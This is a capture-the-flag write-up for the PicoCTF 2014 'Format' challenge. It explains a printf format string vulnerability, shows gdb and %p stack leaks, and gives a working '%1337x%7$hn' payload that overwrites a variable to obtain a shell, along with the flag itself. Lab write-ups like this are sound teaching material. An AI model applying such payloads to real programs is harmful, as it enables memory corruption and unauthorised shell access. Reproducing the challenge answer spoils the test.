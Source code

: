 ## Format - 70 (Binary Exploitation)
####writeup by patil215
Created: 2014-11-08 12:25:57
Last modified: 2014-11-09 22:28:25

### Problem

This program is vulnerable to a format string attack! See if you can modify a variable by supplying a format string! The binary can be found at ```/home/format/``` on the shell server. The source can be found [here](https://picoctf.com/problem-static/binary/format/format.c).

### Hint

There is already a pointer to the variable on the stack! Also, %n may be useful!

## Answer

### Overview

Use a standard format string exploit to set the value of the ```secret``` variable to 1337.

### Details

The title of this problem and the description lead us to believe that our exploit needs to take advantage of the format string used in the problem - there's probably a vulnerability when it is used.

Let's take a look at the [source](https://picoctf.com/problem-static/binary/format/format.c). On line 15, we can find the mistake this programmer made:

```c
printf(argv[1]);
```

```printf``` should be taking in an additional argument. Normally, ```printf``` works by taking in a format string followed by variables to print (see [here](http://www.cplusplus.com/reference/cstdio/printf/) for more info). The problem is, this person only has printf printing the argument with no format string specified. This is something we can exploit - since printf can take any number of arguments, we can pass in our own format string like ```"%p %p %p"``` and the program will blindly print the next three addresses on the stack.

[This post](http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html) is a great resource for introduction to this kind of exploit. Once you've read that,  we'll apply it to this program.

Let's now write our exploit. The hint tells us that there's a pointer to a variable on the stack that we can take advantage of.

Looking through the code, we see that ```secret``` is that variable. It is first initialized to zero:

```c
int secret = 0;
```

and then if the value of ```secret``` is 1337, we get a shell with full permissions that we can use to get our flag:

```c
if (secret == 1337){
    give_shell();
}
```

What we need to do is use the format string exploit to set the variable of secret to 1337. The first thing we need to do to accomplish this is figure out the memory address of ```secret``` so we know where to write to. The easiest way to do this is with [```gdb```](http://www.gnu.org/software/gdb/) (during the competition, this was available by default on the PicoCTF shell).

Let's run the program through ```gdb``` and find the value of secret. In the shell we type:

```zsh
pico89244@shell:~$ gdb format
Reading symbols from format...(no debugging symbols found)...done.
(gdb) p &secret
$1 = (<data variable, no debug info> *) 0x804a030 <secret>
```

Using ```p &secret``` gdb prints the memory address of secret, 0x804a030. The next thing we need to do is see where on the stack the memory address is when the program runs. So, we do:

```
./format "%p %p %p %p %p %p %p %p %p"
```

```%p``` causes the program to print out the memory address next on the stack, so doing this 9 times as above will print the first 9 memory addresses on the stack, giving us:

```
0xffffd7e4 0xffffd7f0 0xf7e4f39d 0xf7fc83c4 0xf7ffd000 0x804852b 0x804a030 0x8048520 (nil)pico8
```

We see 0x804a030 in the 7th spot - so we know that the address of secret is the 7th variable on the stack!

The introduction to format string exploits linked above told us most of what we needed to know to format our string. The ```%n``` format string lets us write "the number of characters written so far into the integer indicated by the pointer argument" - so if we create a string 1337 characters long (using ```%1337```) and then provide memory address pointing to secret, we can set the value of secret to 1337. We provide this memory address with ```x%7``` - this returns the 7th variable on the stack, the location of ```secret```. ```$(python -c``` allows us to pipe python output into the program, great since we have a long string of characters. ```$hn``` writes this input to the stack a few bytes at a time. Putting it all together we get:

```bash
./format "$(python -c 'import sys; sys.stdout.write("%1337x%7$hn")')"
```

Running this sets the value of ```secret``` to 1337, executing ```give_shell()``` in the source, so now we have access to the shell with full permissions! Typing ```cat flag.txt``` into this shell gives us our flag. Interestingly enough, this exploit works without having to use ```%n``` as the hint says.



### Flag

    who\_thought\_%n_was_a_good_idea?

